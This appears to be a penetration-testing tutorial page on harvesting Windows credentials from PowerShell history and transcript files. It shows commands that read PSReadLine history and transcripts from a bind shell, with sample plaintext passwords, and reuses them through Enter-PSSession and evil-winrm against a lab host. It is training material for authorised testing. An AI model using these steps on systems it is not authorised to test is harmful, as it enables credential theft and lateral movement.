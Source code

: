Enumrating Windows Machine through History 

## Introduction

During penetration testing, gaining access to sensitive information like credentials can significantly enhance your foothold in the target environment. PowerShell logging mechanisms, such as Transcription and Script Block Logging, are valuable resources that can reveal crucial information.

## PowerShell Logging Mechanisms

### PowerShell Transcription
Transcription logs commands executed in PowerShell, saving them in transcript files typically found in user directories or a central directory.

### Script Block Logging
Script Block Logging records entire blocks of script code as they execute, capturing full command content.

## Retrieving PowerShell History

### Scenario: Penetration Test
Assume you have a bind shell on port 4444 as user `dave`.

1. **Check PowerShell history:**

    ```powershell
    PS C:\Users\dave> Get-History
    ```

    If empty, check PSReadline history:

    ```powershell
    PS C:\Users\dave> (Get-PSReadlineOption).HistorySavePath
    PS C:\Users\dave> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    ```

2. **Analyze history file:**

    Example output might include commands setting up credentials:

    ```plaintext
    $PSVersionTable
    Register-SecretVault -Name pwmanager -ModuleName SecretManagement.keepass -VaultParameters $VaultParams
    Set-Secret -Name "Server02 Admin PW" -Secret "paperEarMonitor33@" -Vault pwmanager
    Clear-History
    Start-Transcript -Path "C:\Users\Public\Transcripts\transcript01.txt"
    Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
    exit
    Stop-Transcript
    ```

    Note credentials or paths for further investigation.

3. **Review PowerShell Transcription:**

    ```powershell
    PS C:\Users\dave> type C:\Users\Public\Transcripts\transcript01.txt
    ```

    Example content might reveal credentials:

    ```plaintext
    $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
    Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
    ```

4. **Use retrieved credentials to gain access:**

    ```powershell
    PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
    PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
    PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
    ```

    Verify access with:

    ```powershell
    whoami
    ```

    If needed, use `evil-winrm` from Kali:

    ```bash
    kali@kali:~$ evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
    ```

## Conclusion

PowerShell logs are a treasure trove for penetration testers. By examining PowerShell history and transcript files, you can uncover valuable credentials and command executions, enabling deeper access into the target environment. Always review these logs during your tests to maximize your findings.
